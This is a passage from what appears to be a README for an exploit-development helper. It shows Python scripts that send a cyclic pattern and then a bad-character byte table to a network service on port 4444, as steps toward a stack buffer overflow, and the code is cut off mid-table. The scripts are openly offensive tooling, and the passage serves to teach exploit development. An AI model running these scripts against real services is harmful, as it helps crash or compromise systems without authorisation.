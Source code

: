 ```python
    "Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
)  # 300 bytes from pattern_create.rb

print('Trying to send %s bytes unique chars...' % (str(len(pattern))))
try:
    s.connect(('host.example.tld', 4444))
    s.send(str2b('' + pattern + ''))
    print('done')
except:
    print('Could not connect')
s.close()
```

Next thing you will want to do is to adjust the `len_overflow` variable in `badchars.py` and
`attack.py` with the value you found via `pattern_offset.rb`


#### `badchars.py`

This script will help you to identify any characters that are squashed or truncated in memory, ie.
the bad characters that cannot be used for the payload.

Before running it, remember to adjust the `len_overflow` variable.

```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Unescape P2/P3 and convert to bytes if Python3."""
    # Python2: Unescape control chars
    try:
        return data.decode('string_escape')
    except AttributeError:
        pass
    except UnicodeDecodeError:
        pass
    # Python3: Unescape control chars and convert to byte
    try:
        return data.encode("utf-8").decode('unicode-escape').encode("latin1")
    except UnicodeDecodeError:
        pass

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_overflow = 300      # Use pattern_create.rb and pattern_offset.rb to find exact offset
eip          = "B"*4     # Ignore for badchar detection
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
```